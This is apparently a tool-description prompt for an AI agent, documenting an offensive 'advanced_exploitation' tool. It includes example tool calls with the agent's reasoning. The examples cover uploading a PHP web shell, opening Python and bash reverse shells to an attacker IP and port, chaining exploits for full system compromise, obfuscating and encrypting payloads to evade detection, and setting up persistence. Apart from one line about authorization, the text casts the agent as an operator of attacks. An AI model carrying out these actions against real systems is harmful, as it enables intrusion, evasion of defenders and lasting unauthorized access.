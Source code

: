 ### advanced_exploitation

advanced exploitation tool for achieving RCE and complex attack chains
specialized for sophisticated penetration testing and offensive security
select "action" arg: "list" "generate" "execute" "chain" "evasion" "post_exploitation"
provide "target" with IP address, domain, or application
use "exploit_type" to specify exploitation method
use "payload_type" to specify payload type
use "attacker_ip" and "attacker_port" for reverse shells
essential for advanced penetration testing and red team operations
always ensure proper authorization before exploitation
usage:

1 list available exploits and payloads
~~~json
{
    "thoughts": [
        "Need to see available exploitation options",
        "Will list all exploits and payloads",
        "This will help choose appropriate attack vectors"
    ],
    "tool_name": "advanced_exploitation",
    "tool_args": {
        "action": "list"
    }
}
~~~

2 generate custom exploit
~~~json
{
    "thoughts": [
        "Need to generate custom exploit for target",
        "Will create web shell upload exploit",
        "This will provide RCE capability"
    ],
    "tool_name": "advanced_exploitation",
    "tool_args": {
        "action": "generate",
        "target": "target.com",
        "exploit_type": "web_shell_upload",
        "payload_type": "php_reverse_shell",
        "attacker_ip": "192.168.1.100",
        "attacker_port": "4444"
    }
}
~~~

3 execute exploit against target
~~~json
{
    "thoughts": [
        "Need to execute reverse shell exploit",
        "Will establish reverse shell connection",
        "This will provide command execution access"
    ],
    "tool_name": "advanced_exploitation",
    "tool_args": {
        "action": "execute",
        "target": "target.com",
        "exploit_type": "reverse_shell",
        "payload_type": "python_reverse_shell"
    }
}
~~~

4 create complex exploit chain
~~~json
{
    "thoughts": [
        "Need to create complex exploit chain",
        "Will design multi-stage attack",
        "This will provide complete system compromise"
    ],
    "tool_name": "advanced_exploitation",
    "tool_args": {
        "action": "chain",
        "target": "target.com"
    }
}
~~~

5 apply evasion techniques
~~~json
{
    "thoughts": [
        "Need to apply evasion techniques to payload",
        "Will obfuscate and encrypt payload",
        "This will help avoid detection"
    ],
    "tool_name": "advanced_exploitation",
    "tool_args": {
        "action": "evasion",
        "payload_type": "bash_reverse_shell",
        "attacker_ip": "192.168.1.100",
        "attacker_port": "4444"
    }
}
~~~

6 perform post-exploitation actions
~~~json
{
    "thoughts": [
        "Need to perform post-exploitation actions",
        "Will enumerate system and establish persistence",
        "This will maintain access and gather intelligence"
    ],
    "tool_name": "advanced_exploitation",
    "tool_args": {
        "action": "post_exploitation",
        "target": "target.com"
    }
}
~~~ 